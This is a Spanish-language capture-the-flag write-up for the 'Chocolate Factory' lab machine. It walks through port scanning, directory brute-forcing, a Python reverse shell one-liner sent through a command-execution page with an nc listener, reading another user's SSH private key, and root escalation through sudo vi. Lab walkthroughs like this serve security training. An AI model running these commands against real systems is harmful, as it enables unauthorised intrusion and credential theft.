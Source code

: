```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

</div>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<div align="left">

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

</div>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<div align="left">

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver la password de charlie en el fichero validate.php

<div align="left">

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<div align="left">

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt="" width="459"><figcaption></figcaption></figure>

</div>
